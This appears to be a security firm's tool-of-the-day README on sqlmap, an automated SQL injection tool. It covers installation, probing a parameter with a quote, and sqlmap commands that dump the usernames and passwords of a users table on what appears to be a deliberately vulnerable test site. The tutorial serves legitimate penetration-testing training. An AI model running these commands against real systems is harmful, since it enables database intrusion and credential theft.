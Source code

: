 SQLMAP
============

Automatic SQL injection and database takeover tool

![SQLMAP ](https://www.briskinfosec.com/assets/tooloftheday/Copy_of_Briskinfosec_TOD_Latest_samples_178.jpg)


Details:
============
|  Details | Description   |
| ------------ | ------------ |
|  Tool Name |  SQLMAP |
|  Category | Web Application  |
|  Purpose | sqlmap is an open source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws and taking over of database servers. It comes with a powerful detection engine, many niche features for the ultimate penetration tester, and a broad range of switches including database fingerprinting, over data fetching from the database, accessing the underlying file system, and executing commands on the operating system via out-of-band connections.  |
|  License |    Opensource|

Demo Video:
-----------------
Click Here for [Video](https://www.youtube.com/watch?v=RKgO1penBtk  "Video")


Blog: 
--------------
Click Here for [Blog](https://briskinfosec.com/tooloftheday/toolofthedaydetail/SQLMAP "Blog")

Installation
----------------

To install SQLmap we can pull it  from above github link or we can use below command 

- apt-get install sqlmap

It comes installed by default in kali linux...

To use sqlmap to exploit SQLi flaw

1.First we need to find a SQLi vulnerable parameter in a web app

- testphp.vulnweb.com/listproducts.php?cat=2' 

 Adding a single quote showed this site parameter cat is vulnerable 

2.We can launch sqlmap to dump Databases, tables and cloumns and Data from the vulnerable site

Note: Using Sqlmap for exploitation without proper permission is illegal

-  -u url -p parameter
- --dbs databases
- --tables to get tables
- --columns to get columns

Sqlmap may take a lot of time as it will try lot of sqli techniques based on target SQL server (mysql, mssql, oracle etc.,)

Once we got DB, we can fetch tables and columns

    sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=2 -p cat -D acuart --tables

Lets dump user and pass info from users table

    sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=2 -p cat -D acuart -T users -C uname,pass --dump

In this way SQLmap can be used to exploit blind SQLi vulnerability also.

------------


Links
----------------

 ![ ](https://img.icons8.com/color/15/000000/youtube-play.png) [Briskinfosec Youtube Channel](https://www.youtube.com/channel/UCcPmqqYETcO_7-6p_uUsF1w "Briskinfosec Youtube Channel")


 ![ ](https://img.icons8.com/glyph-neue/15/000000/github.png) [Github](https://github.com/briskinfosec "Github") 

  ![ ](https://img.icons8.com/ios/15/000000/internet--v2.png) [Our Website](https://www.briskinfosec.com/ "Our Website")
